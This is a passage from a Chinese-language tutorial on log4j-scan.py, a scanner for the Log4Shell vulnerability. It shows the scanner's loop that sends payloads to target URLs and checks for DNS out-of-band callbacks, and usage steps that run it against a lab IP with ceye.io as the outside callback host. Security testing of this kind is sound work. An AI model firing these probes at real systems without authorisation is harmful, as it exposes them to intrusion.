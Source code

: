 ```python
    for url in urls:
        cprint(f"[•] URL: {url}", "magenta")
        scan_url(url, dns_callback_host)

    if args.custom_dns_callback_host:
        cprint("[•] Payloads sent to all URLs. Custom DNS Callback host is provided, please check your logs to verify the existence of the vulnerability. Exiting.", "cyan")
        return

    cprint("[•] Payloads sent to all URLs. Waiting for DNS OOB callbacks.", "cyan")
    cprint("[•] Waiting...", "cyan")
    time.sleep(int(args.wait_time))
    records = dns_callback.pull_logs()
    if len(records) == 0:
        cprint("[•] Targets do not seem to be vulnerable.", "green")
    else:
        cprint("[!!!] Targets Affected", "yellow")
        for i in records:
            cprint(json.dumps(i), "yellow")
```

**5. 使用方法**
1. **注册 `ceye.io` 账户**：
   - 访问 [ceye.io](http://ceye.io/)，注册并获取 `token` 和 `domain`。

2. **运行工具**：
   - 使用以下命令运行工具，并指定 `ceye.io` 作为 DNS 回调服务：
     ```bash
     python3 log4j-scan.py -u http://192.168.20.6:13708/hello --dns-callback-provider ceye.io
     ```
     ![1742188207042](image/record/1742188207042.png)

3. **检查结果**：
   - 登录 `ceye.io`，也可以查看到 DNS 请求记录。